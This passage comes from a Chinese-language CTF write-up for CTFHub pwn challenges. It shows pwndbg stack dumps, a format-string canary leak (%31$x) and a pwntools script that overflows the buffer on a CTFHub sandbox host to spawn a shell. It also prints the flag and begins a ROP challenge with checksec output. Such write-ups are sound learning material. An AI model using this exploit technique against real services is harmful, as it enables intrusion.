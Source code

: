 ```assembly
24:0090│     0xffffcfb0 —▸ 0xffffcfd0 ◂— 0x1
pwndbg> x/1x $ebp-0xc
0xffffcf9c:     0xe33c6800
pwndbg> x/32x $esp
0xffffcf20:     0x00000000      0xffffcf38      0x00000200      0x08048637
0xffffcf30:     0xf7e1dda0      0x00000000      0x41414141      0x0804820a
0xffffcf40:     0x0804a00c      0x00000020      0xf7c80af9      0xf7e1ba40
0xffffcf50:     0xf7e1dda0      0xf7e1cff4      0xffffcf98      0xf7c74f3b
0xffffcf60:     0xf7e1dda0      0x0000000a      0x0000002d      0xf7c7b7c5
0xffffcf70:     0xf7e1dd00      0x000007d4      0xf7e1de3c      0x0000002d
0xffffcf80:     0xffffcfb8      0xf7fdb8d0      0xf7e1e9ac      0x0804a000
0xffffcf90:     0x080486e0      0xf7ffcb80      0xffffcfb8      0xe33c6800  # 从0开始数,canary是第31个 
```

`canary`到栈顶`$esp`的偏移量是`0x1f`即`31`，因此我们可以用`%31$x`来以16进制格式输出无`0x`开头的字符串，拿到`canary`后将其转换为`int`型数值，接着利用栈溢出漏洞。

构造`payload`时，先用`cyclic()`填充`100`个字节的`padding`（`pwndbg`中可以算出`0xffffcf9c-0xffffcf38=100`，`IDA Pro`查看栈结构覆盖到`canary`正好是`0x70-0xc=100`），写入读取到的`canary`数值，并继续填充`0xc`个`padding`覆盖到栈帧`$ebp`，接着写入我们想要跳转的`shell()`函数所在地址。编写`Python`代码求解，拿到`shell`后输入`cat flag`得到`ctfhub{ffa27275c0ee969520de8e2b}`。

```python
from pwn import *

io = remote('challenge-00924c33bef2cbdc.sandbox.ctfhub.com', 34949)
io.recvline()
io.sendline(b'%31$x')
canary = int(io.recv(8), 16)
log.success('canary => %#x', canary)
elf = ELF('./pwn')
shell_addr = elf.symbols['shell']  # 0x80485a6
payload = cyclic(0x70-0xc) + p32(canary) + cyclic(0xc) + p32(shell_addr)
io.sendline(payload)
io.interactive()
```

------

### ROP

先`file ./pwn`查看文件类型再`checksec --file=./pwn`检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/ctfhub/ROP]
└─$ file ./pwn
./pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f5d131f24a3b86fc859f2cfade17eb92888ff738, not stripped
                                                                                                      
┌──(tyd㉿kali-linux)-[~/ctf/pwn/ctfhub/ROP]
└─$ checksec --file=./pwn
[*] '/home/tyd/ctf/pwn/ctfhub/ROP/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
